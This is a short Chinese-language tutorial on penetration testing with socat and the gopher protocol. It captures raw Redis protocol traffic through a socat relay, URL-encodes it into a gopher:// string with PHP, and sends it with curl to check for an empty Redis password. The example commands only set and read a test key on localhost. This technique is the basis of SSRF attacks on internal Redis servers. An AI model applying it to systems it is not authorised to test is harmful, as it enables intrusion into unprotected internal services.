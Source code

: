 ## 运用gopher 和 socat 进行网络渗透

---

socat是一个多功能的网络工具，名字来由是“Socket CAT”，可以看作是netcat的N倍加强版，socat 的官方网站：
[http://www.dest-unreach.org/socat/](http://www.dest-unreach.org/socat/)
网上搜到一个详细的[pdf文档](http://run.qixingyue.com/gopher/socat.pdf)

* 安装办法:

`$ yum install socat -y `

* 映射服务端口，本实例用redis举例，测试的是redis 空密码:

`$ socat -v tcp-listen:6377,fork tcp4:localhost:6379`

* 按照redis的方式访问6377端口，进行set,get 操作，*get到set的值，则认为是空密码*

`$ redis-cli -h localhost -p 6377 `
`$ set a hihackworld`
`$ get a `

* 在之前的socat命令运行中获得输入:

`
    *3\r
    $3\r
    set\r
    $1\r
    a\r
    $11\r
    hihackworld\r
    *2\r
    $3\r
    get\r
    $1\r
    a\r
`

* 运用任何一种熟悉的语言,比如php，对输入进行urlencode:
`
    $message = "*3\r
    $3\r
    set\r
    $1\r
    a\r
    $11\r
    hihackworld\r
    *2\r
    $3\r
    get\r
    $1\r
    a\r
    ";
    
    $gopherstr = "gopher://localhost:6379/_" . urlencode($message) ;
    echo $gopherstr;
`
* 运用curl组合gopher串进行测试:

`$ curl -s <$gopherstr>`

    获取到输出该网络流的输出:

`
+OK
$11
hihackworld
`
